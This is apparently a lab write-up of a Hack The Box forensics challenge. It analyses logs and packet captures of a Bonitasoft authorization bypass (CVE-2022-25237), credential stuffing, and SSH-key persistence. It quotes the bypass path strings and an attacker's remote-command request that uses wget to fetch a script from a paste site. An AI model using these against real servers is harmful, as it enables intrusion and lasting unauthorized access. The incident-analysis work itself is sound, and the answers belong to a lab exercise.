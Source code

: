 ### Summary 
 This Sherlock is focusing on working with Zeek logs and network analysis using PCAP.
 
[Link to this Sherlock on HTB Labs](https://app.hackthebox.com/sherlocks/552/play)

I used Timeline Explorer to process alert logs because I was working on Windows VM without WSL. Alternatively, jq could be used. For network analysis I used Wireshark, but Tshark was also required to answer one of the questions.
### Challenge Scenario
"As a fast-growing startup, Forela has been utilising a business management platform. Unfortunately, our documentation is scarce, and our administrators aren't the most security aware. As our new security provider we'd like you to have a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised."
### Walkthrough
1. We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?
	While going through alert logs, I identified the following alert: `@{severity=1; signature=ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237); category=Attempted Administrator Privilege Gain; action=allowed; signature_id=2036818; gid=1; rev=1; metadata=}` at 2023-01-19T15:31:31.042Z

2. We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?
	There a lot of HTTP Post requests containing credentials of work accounts. This is a sign of a credential stuffing.

3. Does the vulnerability exploited have a CVE assigned - and if so, which one?: 
	Answer to question 3 can be found initially during alerts analysis.

4. Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?: 
	While reading about the exploit https://rhinosecuritylabs.com/application-security/cve-2022-25237-bonitasoft-authorization-bypass/ I found out that Bonita appends either “/i18ntranslation/../” or “;i18ntranslation” to the API URL to allow authorization to be bypassed. I correlated this info with pcap in Wireshark and found the answer. ![Pasted image 20250212150133](https://github.com/user-attachments/assets/e672fe65-5b9f-4232-a96b-4b57c36250c6)

5. How many combinations of usernames and passwords were used in the credential stuffing attack?: 
	Not difficult question yet I stuck here and had to address the official write-up. My Wireshark display filter `http.request.full_uri == "http://forela.co.uk:8080/bonita/loginservice" && !http` contains "install" was displaying 59 entries, but there were 3 repetitions in the very end which shouldn't have been counted. After additional research I concluded that the easiest way to find the solution to this question with a filters would be through Tshark command 
	`tshark -Y '(http.request.uri == "/bonita/loginservice") && (!http contains "install")' -r meerkat.pcap -T json | jq '.[]._source.layers.http."http.file_data"' | sort | uniq | wc -l`

6. Which username and password combination was successful?
	Looking through network logs we can see someone running a command whoami, it prompted me to follow HTTP stream and I was able to see there authentication attempt with positive response, namely status code 204.
	
	*The HTTP 204 No Content status code indicates that the server has successfully processed the request, but there is no content to send in the response body. This status code is particularly useful for operations that do not require the client to navigate away from the current page or display any new information. !![Pasted image 20250216102441](https://github.com/user-attachments/assets/efe3bdce-b2a5-4870-9c30-21546d8fd0b6)

7. If any, which text sharing site did the attacker utilise?
	Continuing investigating Wireshark logs we are able to see a GET request with remote command execution which has a website URL that fits out description. 
	`GET/bonita/API/extension/rcep=0&c=1&cmd=wget%20https://pastes.io/raw/bx5gcr0et8 HTTP/1.`

8. Please provide the filename of the public key used by the attacker to gain persistence on our host.
	If we carefully follow the link above (using Browserling, for example) we can see a bash script that appends data from https://pastes.io/raw/hffgra4unv to `/home/ubuntu/.ssh/authorized_keys`. The data it retrieves is SSH key, and it is also seen that TA executes ssh restart after getting the key. Hence, we can conclude this is used to achieve persistence.

9. Can you confirm the file modified by the attacker to gain persistence?
	Answer can be found in the previous question.

10. Can you confirm the MITRE technique ID of this type of persistence mechanism?
	Account Manipulation: SSH Authorized Keys sub-technique is on MITRE website, which confirms the previous assumption.

 
